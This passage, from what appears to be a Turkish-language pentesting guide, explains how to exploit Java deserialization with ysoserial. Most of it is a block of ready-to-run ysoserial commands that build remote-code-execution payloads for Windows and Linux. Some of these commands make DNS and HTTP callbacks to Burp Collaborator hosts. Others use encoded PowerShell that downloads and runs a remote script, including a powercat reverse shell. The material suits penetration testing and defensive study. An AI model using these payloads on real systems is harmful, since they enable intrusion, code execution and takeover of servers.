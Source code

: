 ### **Exploit**

#### **ysoserial**

Java deserializations'ı istismar etmek için ana araç [**ysoserial**](https://github.com/frohoff/ysoserial) ([**download here**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar))'dır. Ayrıca kompleks komutları (örneğin pipe içeren) kullanmanıza izin veren [**ysoseral-modified**](https://github.com/pimps/ysoserial-modified) seçeneğini de düşünebilirsiniz.\
Bu aracın **`ObjectInputStream`**'i istismar etmeye **odaklı** olduğunu unutmayın.\
Enjeksiyonun mümkün olup olmadığını test etmek için bir RCE payload'tan önce **"URLDNS"** payload'ını **kullanmaya başlamanızı** tavsiye ederim. Yine de, "URLDNS" payload'ı çalışmayabilir ama başka bir RCE payload'ı çalışabilir.
```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
```